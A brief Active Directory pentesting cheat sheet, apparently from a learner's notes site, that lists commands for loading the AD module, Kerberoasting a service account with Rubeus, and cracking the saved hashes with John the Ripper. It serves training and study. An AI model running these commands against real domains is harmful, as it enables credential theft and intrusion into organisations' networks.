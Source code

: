 ```yaml
---
title: AD Enumeration
draft: false
tags:
  - example-tag
enableToc: true
---
```


This is for newbiews to understand Active Directory Testing.

## Enumeration on users,computers.

### Active Directory CheatSheet


Import-Module C:\AD\Tools\ADModule-
master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1


 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:serviceaccount /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt

  C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
